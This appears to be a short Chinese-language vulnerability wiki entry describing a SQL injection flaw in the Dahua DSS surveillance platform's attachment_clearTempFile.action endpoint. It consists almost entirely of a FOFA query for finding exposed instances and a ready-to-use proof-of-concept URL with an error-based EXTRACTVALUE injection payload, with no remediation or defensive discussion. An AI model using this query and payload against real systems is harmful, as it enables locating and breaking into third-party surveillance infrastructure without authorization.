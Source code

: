 ## 大华DSS数字监控系统attachment_clearTempFile.action存在SQL注入漏洞

## fofa
```
app="dahua-DSS"
```


## poc
```
http:///portal/attachment_clearTempFile.action?bean.RecId=1%27)%20AND%20EXTRACTVALUE(1,concat(0x7e,md5(1),0x7e))%20or%20(%2799%27=%2799&bean.TabName=1
```
![image](https://github.com/wy876/wiki/assets/139549762/495b58df-a0dd-4862-b9ff-77367b0f1858)


